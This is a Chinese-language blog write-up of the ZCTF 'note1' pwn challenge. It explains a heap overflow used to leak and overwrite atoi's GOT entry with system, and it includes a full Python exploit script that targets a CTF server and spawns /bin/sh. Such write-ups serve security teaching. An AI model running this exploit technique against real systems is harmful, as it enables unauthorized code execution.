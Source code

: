 ```yaml
---
layout: post
title: "zctf note1"
category: 
  - writeup
tags: 
  - CTF
  - Security
  - pwn
---
```

{% include JB/setup %}

zctf 稍微看了下做了这题，记录一下。

这题比较简单，没有涉及很多 heap 相关的东西，唯一要做的就是覆盖 chunk 然后用程序本身的功能修改数据，适合初学者练习 pwn 。

<h3>info leak</h3>

典型的 note 类型的题目， 添加三个 note ，edit note 的时候可以修改的长度大于添加时的长度，因此存在溢出，可以覆盖到下一个 chunk ，edit 第一个 note ，然后覆盖第二个 note ，顺便把第二个 note 的东西覆盖成我们要改写的 atoi ，这样方便改写。所以覆盖后最简单的就是实现 info leak 。为后面改写 got 表做准备，但是存在一个小问题就是你 leak 后，因为他还需要往前显示上一个 note 的数据，所以如果 pre chunk 的值是一个不可访问的地址的话，程序就会 crash 掉。所以在覆盖的时候需要把 pre chunk 的值覆盖成 0 就行了。

<h3>改写 got 表</h3>

本来是想说改写任意地址的，但是会发现其实不能写任意地址，具体原因可以自己写看看。由于之前改写其他的 chunk ，所以导致每个 note 的标题都为空，因为第二个 note 的 pre chunk 被我们覆盖成 0 ，所以现在能显示的其实只有两个 note 。由于是倒叙遍历的，所以删除掉一个标题为空的 note 就是删除掉第三个 note 。这时候只剩第二个 note 了，然后第二个 note 一开始就被我们改成了 atoi 的地址了，所以直接把 atoi 改写成 system 。然后回到菜单输入 /bin/sh 就能执行 system('/bin/sh')

<h3>代码</h3>

{% highlight python %}
from zio import *

def new_note(title, type_str, content):
    io.read_until('option---')
    io.writeline('1')
    io.read_until('title:')
    io.writeline(title)
    io.read_until('type:')
    io.writeline(type_str)
    io.read_until('content:')
    io.writeline(content)

def edit_note(title, content):
    io.read_until('option---')
    io.writeline('3')
    io.read_until('title:')
    io.writeline(title)
    io.read_until('content:')
    io.writeline(content)

def show_note():
    io.read_until('option---')
    io.writeline('2')

def del_note(title):
    io.read_until('option---')
    io.writeline('4')
    io.read_until('title:')
    io.writeline(title)

def main():
    new_note('a','a','a')
    new_note('b','b','b')
    new_note('c','c','c')
    show_note()
    junk = 'a'*256 + "\x00"*8 + l64(0x181)
    content = junk + l64(0) + l64(0x601fe8)
    edit_note('b', content)
    # io.gdb_hint()
    show_note()
    io.read_until('content')
    io.read_until('content')
    tmp = io.read_until('1.New')[1:-1*len('1.New')-1][::-1]
    system_addr = int('0x'+tmp.encode('hex'), 16) - 0x3c110
    log(hex(system_addr), color='red')
    setvbuf_addr = l64(system_addr + 0x2a030)
    del_note('')
    edit_note('', l64(0x3c110+system_addr) + setvbuf_addr+l64(system_addr))
    io.read_until('option')
    io.writeline('/bin/sh')
    io.interact()

if __name__ == '__main__':
    # io = zio('./note1')
    io = zio(('115.28.206.86',9001))
    main()
{% endhighlight %}